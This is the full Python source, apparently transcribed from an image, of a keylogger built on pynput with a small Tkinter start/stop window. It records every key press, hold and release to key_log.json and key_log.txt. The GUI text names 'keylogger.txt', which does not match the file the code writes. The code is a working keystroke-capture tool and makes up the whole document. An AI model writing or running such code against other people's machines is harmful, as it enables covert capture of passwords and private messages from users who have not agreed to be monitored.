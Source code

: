 import tkinter as tk
from tkinter import *
from pynput import keyboard
import json

keys_used = []
flag = False
keys = ""

def generate_text_log(key):
    with open('key_log.txt',"w+") as keys:
        keys.write(key)

def generate_json_file(keys_used):
    with open('key_log.json', '+wb') as key_log:
        key_list_bytes = json.dumps(keys_used).encode() 
        key_log.write(key_list_bytes)
    
def on_press(key):
    global flag, keys_used, keys
    if flag == False:
        keys_used.append(
            {'Pressed':f'{key}'}
        )
        flag = True
    
    if flag == True:
        keys_used.append(
            {'Held':f'{key}'}
        )
    generate_json_file(keys_used)


def on_release(key):
    global flag, keys_used, keys
    keys_used.append(
        {'Released':f'{key}'}
    )

    if flag == True:
        flag = False
    generate_json_file(keys_used)

    keys = keys+str(key)
    generate_text_log(str(keys))

def start_keylogger():
    global listener
    listener = keyboard.Listener(on_press=on_press, on_release=on_release)
    listener.start()
    label.config(text="[+] Keylogger is running!\n[!] Saving the keys in 'keylogger.txt'")
    start_button.config(state='disabled')
    stop_button.config(state='normal')

def stop_keylogger():
    global listener
    listener.stop()
    label.config(text="Keylogger stopped.")
    start_button.config(state='normal')
    stop_button.config(state='disabled')

root = Tk()
root.title("Keylogger")

label = Label(root, text='Click "Start" to begin keylogging.')
label.config(anchor=CENTER)
label.pack()

start_button = Button(root, text="Start", command=start_keylogger)
start_button.pack(side=LEFT)

stop_button = Button(root, text="Stop", command=stop_keylogger, state='disabled')
stop_button.pack(side=RIGHT)

root.geometry("550x550") 

root.mainloop()
